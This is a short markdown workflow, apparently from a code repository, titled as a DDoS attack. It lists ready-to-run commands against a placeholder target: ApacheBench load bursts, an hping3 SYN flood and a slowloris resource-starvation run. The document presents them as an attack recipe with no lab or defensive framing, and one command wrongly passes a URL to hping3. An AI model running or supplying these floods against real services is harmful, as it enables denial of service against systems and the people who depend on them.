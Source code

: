 # Workflow: DDos Attack Using ab + hping3 + slowloris

For normal loads

``ab -n 100 -c 10 http://target-app/``

Push server loads

``ab -n 1000 -c 100 http://target-app/``

SYN Floods

``sudo hping3 -S -p 80 --flood http://target-app/``

Slowloris - Resource Starvation

``slowloris target-app -p 80 -s 500``